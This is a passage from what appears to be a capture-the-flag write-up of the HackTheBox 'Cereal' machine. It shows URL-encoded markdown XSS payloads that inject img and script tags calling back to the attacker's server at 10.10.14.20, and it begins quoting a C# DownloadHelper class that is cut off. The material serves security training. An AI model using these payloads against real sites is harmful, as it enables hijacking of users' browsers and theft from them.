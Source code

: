 We need to encode the `'"` because it's markdown

```
[XSS](javascript: document.write%28%27<img src=%22http://10.10.14.20/0x4rt3mis%22 />%27%29)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2001:52:23.png)

And we get the request back

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2001:53:55.png)

We have XSS!

Now, what we need to do is get a script tag working, so we can execute javascript code in it and exploit the server

I was able to redirect the page to my webserver by setting window.location

```
[XSS](javascript: document.write%28%22<script>window.location = 'http://10.10.14.20/location';</script>%22%29)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2002:04:06.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2002:04:14.png)

So we can run commands in it

## DownloadHelper

One more thing is important to mention, on the files we have a downloadhelper.cs which will give hints about how to upload files on the server

```cs
public class DownloadHelper
{
    private String _URL;
    private String _FilePath;
    public String URL
    {
        get { return _URL; }
        set
        {
            _URL = value;
            Download();
        }
    }
    public String FilePath
    {
        get { return _FilePath; }
        set
        {
            _FilePath = value;
            Download();
        }
    }

    //https://stackoverflow.com/a/14826068
    public static string ReplaceLastOccurrence(string Source, string Find, string Replace)
    {
        int place = Source.LastIndexOf(Find);

        if (place == -1)
            return Source;

```